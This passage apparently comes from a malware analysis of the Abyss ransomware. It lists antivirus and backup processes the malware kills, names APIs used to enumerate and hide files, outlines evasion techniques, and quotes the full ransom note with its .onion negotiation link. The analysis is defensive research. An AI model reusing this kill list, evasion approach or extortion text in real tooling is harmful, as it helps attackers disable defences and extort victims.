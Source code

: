 These include SQL Server, Windows Defender, and backup services.
-   **Processes (off_140009E90)**:
    
```c
wchar_t *off_140009E90[159] = {
  L"360se.exe",
  L"AvastUI.exe",
  L"MsMpEng.exe",
  L"Sqlservr.exe",
  L"VeeamDeploymentSvc.exe",
  // ... (more in source)
};
```    
This list targets antivirus tools and critical applications.

It likely uses APIs like `CreateToolhelp32Snapshot` and `Process32NextW` to enumerate and terminate these targets:

```c
HANDLE (__stdcall *CreateToolhelp32Snapshot)(DWORD dwFlags, DWORD th32ProcessID);
BOOL (__stdcall *Process32NextW)(HANDLE hSnapshot, LPPROCESSENTRY32W lppe);
```
----------

## 4. Evasion Techniques

The ransomware employs several methods to avoid detection:

-   **String Obfuscation**: Names of services and processes are stored in static arrays, potentially decrypted at runtime.
-   **Native APIs**: It uses functions like `SetFileAttributesW` to hide files:
    
```c
BOOL (__stdcall *SetFileAttributesW)(LPCWSTR lpFileName, DWORD dwFileAttributes);
```    
-   **Defense Suppression**: Terminating services like WinDefend disables real-time protection.

----------

## 5. Static Data Insights

-   **Ransom Note (Buffer)**: Highlights a financial motive and negotiation process.
```c
#include <windows.h>

// Ransom note extracted from the provided source code
const CHAR Buffer[1632] = "We are the Abyss.\r\n\r\nYour company Servers are crypted and your data has been stolen to our servers.\r\n\r\n\r\nGood news for you:\r\n\r\n   1) We can restore your entire system.\r\n   2) We are not interested in publishing your information.\r\n   3) Our motivation is purely financial.\r\n   4) We are open to negotiations.\r\n   5) We are ready to maintain complete confidentiality of this incident.\r\n\r\nLet's explain the further steps in the situation:\r\n\r\n    You can seek help from authorities - unfortunately, this path will not lead to a constructive resolution of the situation. \r\n\tThey will not assist you with decryption, seize your servers for OPsec, and your company's operations will be halted.\r\n\tSubsequently, the date will be disclosed, leading to fines, legal actions, and reputational damage.\r\n    OR\r\n    You initiate negotiations with us, and we reach a mutually beneficial and constructive solution for both parties.\r\n\tYou pay a specified amount and receive the full decryption, support throughout the decryption process, \r\n\tproofs that all information on our servers has been deleted, and a guarantee that it will never resurface, \r\n\tensuring no one learns about this incident.\r\n\r\nTo initiate negotiations, please download the Tor Browser using their official website: https://www.torproject.org/\r\nuse these credentials to enter the Chat for text negotiation: http://jqlcrn2fsfvxlngdq53rqyrwtwfrulup74xyle54bsvo3l2kgpeeijid.onion/x89yk54gGqjJ8ZAduh5dioahO1TXRA\r\nThere will be no bad news for your company after successful negotiations for both sides. But there will be plenty of those bad news if case of failed negotiations, so don";

// Hypothetical function to write the ransom note
__int64 __fastcall writeRansomNote(__int64 context, const WCHAR* directory) {
```